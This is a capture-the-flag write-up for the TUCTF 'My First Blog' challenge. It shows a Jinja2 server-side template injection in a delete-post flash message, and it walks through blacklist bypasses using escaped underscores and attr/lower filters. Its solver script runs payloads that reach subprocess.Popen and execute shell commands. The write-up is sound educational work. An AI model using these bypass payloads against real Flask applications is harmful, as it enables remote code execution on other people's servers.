





# My First Blog [28 Solves]

## Description

> Welcome to My First Blog! Feel free to poke around and test things out, just know that hacking is strictly not allowed.
>
> <https://my-first-blog.tuctf.com>

No Attachment

## Flag

TUCTF{BL4ckL1st$_R34lly_$uck}

## Solution

This challenge has Flask Jinja2 SSTI in a flush message when delete a post.
The blacklist limits the characters available for SSTI payloads.

### SSTI Detection

Create a post:



Delete a post in edit page:





Detected SSTI.

### Blacklist Bypass

Tried `{{ config }}` payload, the results is the following:



It displayed the blacklist for SSTI, and it looks like `config` is included into it.

blacklist are `config` `class` `request` `self` `global` `getitem` `base` `os` `mro` `import` `builtins` `popen` `read` `write` `system` `eval` `exec` `+` `.` `[` `]` `_`

Let's think about the available features:

- `|`: `|attr` and `|lower`
- `"` `()`: method call
- `"\x5f"`: underscore `_` bypass
- `"\x5f\x5fCLASS\x5f\x5f"|lower`: bypass `class` and `base`
- `attr("method")()`: method call
- `foolist|attr("pop")(372)` is available for instead of accessing the element with `[]`

### Test payload

Setup and tested a payload in local environment:

```python
from flask import Flask, render_template_string
app = Flask("myapp")
def test(p):
    with app.app_context():
        print(render_template_string(p))

test('{{ ""|attr("\x5f\x5fCLASS\x5f\x5f"|lower)|attr("\x5f\x5fBASE\x5f\x5f"|lower)|attr("\x5f\x5fsubCLASSES\x5f\x5f"|lower)() }}')
# output subclasses list

# filter only Popen with for loop
test('{{ c|attr("\x5f\x5fname\x5f\x5f") }}, {{ loop|attr("index0") }}')
# output => Popen, 509

# without selecting index
test('{{ c("id",shell=True,stdout=-1)|attr("communicate")() }}}}')
# output => (b&#39;uid=0(root) gid=0(root) groups=0(root)\n&#39;, None)}}

# with selecting index
test('{{ ""|attr("\x5f\x5fCLASS\x5f\x5f"|lower)|attr("\x5f\x5fBASE\x5f\x5f"|lower)|attr("\x5f\x5fsubCLASSES\x5f\x5f"|lower)()|attr("pop")(509)("id",shell=True,stdout=-1)|attr("communicate")() }}')
# output => (b&#39;uid=0(root) gid=0(root) groups=0(root)\n&#39;, None)
```

### Exploit

```python
# solver.py
from html import unescape
from pwn import args, context

context.log_level = "error"

import requests
import re

requests.packages.urllib3.disable_warnings()
s = requests.Session()
# s.proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
s.verify = False

BASE_URL = "https://my-first-blog.tuctf.com"

# blacklist
blacklist = [
    "config",
    "class",
    "request",
    "self",
    "global",
    "getitem",
    "base",
    "os",
    "mro",
    "import",
    "builtins",
    "popen",
    "read",
    "write",
    "system",
    "eval",
    "exec",
    "+",
    ".",
    "[",
    "]",
    "_",
]


def main():
    payload = args.PAYLOAD if args.PAYLOAD else "{{7*7}}"

    # assertion
    for b in blacklist:
        assert b not in payload, f"matched blacklist: {b}"

    s.get(BASE_URL)
    res = s.post(
        f"{BASE_URL}/create",
        data={"title": payload, "content": ""},
    )

    m = re.findall(r'<a href="/edit/(.*?)">', res.text)
    if not m:
        print("not match.")
        return

    uuid = m[-1]

    res = s.post(f"{BASE_URL}/delete/{uuid}")

    m = re.findall(r'Post "(.*?)" was successfully deleted!', res.text)
    if not m:
        print(f"not matched flush message")
        print(unescape(res.text))
        return

    print(m[0])


if __name__ == "__main__":
    main()
```

First, find the position of `subprocess.Popen` in the output of subclasses():

```console
$ python3 solver.py PAYLOAD='{{ ""|attr("\x5f\x5fCLASS\x5f\x5f"|lower)|attr("\x5f\x5fBASE\x5f\x5f"|lower)|attr("\x5f\x5fsubCLASSES\x5f\x5f"|lower)() }}'
[<class 'type'>, <class 'async_generator'>, (snip), <class 'subprocess.Popen'>, (snip), <class 'cachelib.serializers.BaseSerializer'>]
```

Save the output to a file called subclasses.txt and then read it using Python to print the index of `subprocess.Popen`.

```python
data = open('subclasses.txt').read()
[i for i, s in enumerate(data.split(', ')) if "subprocess.Popen" in s]
# output => [372]
```

Another approach is to paste the output result into the editor, separate it into individual lines, and check the line numbers of `subprocess.Popen`:



Execute `id` bash command.
Note: it should be `pop(372)` not `pop(373)` because of 0-index.

```console
$ python3 solver.py PAYLOAD='{{ ""|attr("\x5f\x5fCLASS\x5f\x5f"|lower)|attr("\x5f\x5fBASE\x5f\x5f"|lower)|attr("\x5f\x5fsubCLASSES\x5f\x5f"|lower)()|attr("pop")(372) }}'
<class 'subprocess.Popen'>

$ python3 solver.py PAYLOAD='{{ ""|attr("\x5f\x5fCLASS\x5f\x5f"|lower)|attr("\x5f\x5fBASE\x5f\x5f"|lower)|attr("\x5f\x5fsubCLASSES\x5f\x5f"|lower)()|attr("pop")(372)("id",shell=True,stdout=-1)|attr("communicate")() }}'
(b'OK, you got me. Here you go: TUCTF{BL4ckL1st$_R34lly_$uck}\n', None)
```

## References

- [Template Designer Documentation — Jinja Documentation (3.1.x)](https://jinja.palletsprojects.com/en/3.1.x/templates/#builtin-filters)
- [Jinja2 template injection filter bypasses \|](https://0day.work/jinja2-template-injection-filter-bypasses/)
- [subprocess — Subprocess management — Python 3.12.0 documentation](https://docs.python.org/3/library/subprocess.html)
